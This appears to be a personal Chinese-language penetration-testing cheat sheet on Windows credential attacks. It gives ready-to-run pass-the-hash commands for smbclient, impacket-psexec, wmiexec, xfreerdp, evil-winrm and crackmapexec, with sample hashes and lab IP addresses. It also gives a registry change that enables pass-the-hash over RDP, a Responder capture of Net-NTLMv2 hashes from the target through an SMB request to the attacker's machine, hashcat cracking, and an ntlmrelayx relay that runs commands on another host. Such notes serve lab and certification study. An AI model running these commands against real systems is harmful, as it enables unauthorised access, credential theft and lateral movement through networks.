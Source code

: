 ```
```
## PassTheHash
>當拿到NTLM hash其實就可以打進去了，不需要真的拿到密碼

### smbclient
```
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```
### impacket-psexec
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
### xfreerdp
```
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```
### evil-winrm
```
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```
### crackmapexec
```
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```
### impacket-wmiexec
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

*  開啟RDP的Pth功能
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

## Net-NTLMv2相關
>[!解釋]
>當拿到Low-Level Shell的時候，無法使用minikatz，但是可以透過Net-NTLMv2拿 hash，原理是利用smb存取kali的臨時伺服器來拿到Net-NTLMv2 hash。

>[!解釋]
>Net-NTLM是不可以用Pass The Hash的，但是可以用Ntlm Relay Attack去打其他台相同帳號的主機。
### 攻擊步驟
1. Kali : 開設responder
```
sudo responder -I tun0
```
2. Target PC : 直接存取smb
```
dir \\kali ip address\test
```
3. 用hashcat破解
```
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
### impacket-ntlmrelayx
>可以直接把respond反彈到其他主機，-t就是要反彈的主機
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.203.212 -c "command"
```